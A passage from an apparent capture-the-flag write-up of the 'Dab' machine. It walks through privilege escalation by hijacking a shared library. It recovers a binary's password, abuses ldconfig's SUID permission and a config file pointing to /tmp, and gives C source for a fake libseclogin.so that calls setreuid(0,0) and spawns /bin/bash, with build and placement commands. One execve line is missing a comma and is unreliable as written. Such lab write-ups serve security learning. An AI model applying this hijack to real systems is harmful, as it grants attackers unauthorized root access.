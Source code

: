 ![Password in binary](https://kyuu-ji.github.io/htb-write-up/dab/dab_re-1.png)

> s3cur3l0g1n

When using this password on the binary, it shows a different response:
```markdown
Enter password: s3cur3l0g1n
Password is correct

seclogin() called
TODO: Placeholder for now, function not implemented yet
```

This function is not in the binary, so it probably is in a _linked library_:
```markdown
ldd /usr/bin/myexec
```
```markdown
libseclogin.so => /usr/lib/libseclogin.so (0x00007f688140e000)
```

When analyzing it with **Radare2**, this is the library that is responsible for the placeholder text:

![Placeholder text](https://kyuu-ji.github.io/htb-write-up/dab/dab_re-2.png)

This kind of dynamic linking is handled by **ldconfig**, which has **SUID permission**.
The configuration files for this can be found in _/etc/ld.so.conf.d_ and in there is a configuration file _test.conf_ which links to _/tmp_.

So this means, when placing files in _/tmp_ and run _ldconfig_, it will repopulate the caching of libraries on the system and link to ours.
The goal is to link the _libseclogin.so_ to another library.

### Linking a new Library

Because we have control over _ldconfig_, linking the library to another should be possible.

Creating _libseclogin.c_:
```c
#include <stdlib.h>
extern int seclogin();

int seclogin(){
        setreuid(0,0);
        execve("/bin/bash", NULL NULL);
}
```

Compiling it into a _shared library_:
```markdown
gcc -shared -fPIC -o libseclogin.so libseclogin.c
```

Placing the library in _/tmp_:
```markdown
cp libseclogin.so /tmp
```
